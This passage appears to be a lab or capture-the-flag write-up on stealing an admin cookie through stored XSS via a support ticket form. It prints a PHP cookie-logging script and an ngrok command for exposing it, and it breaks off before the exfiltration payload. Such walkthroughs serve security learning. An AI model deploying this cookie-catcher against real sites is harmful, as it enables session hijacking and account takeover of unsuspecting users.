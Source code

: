 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```


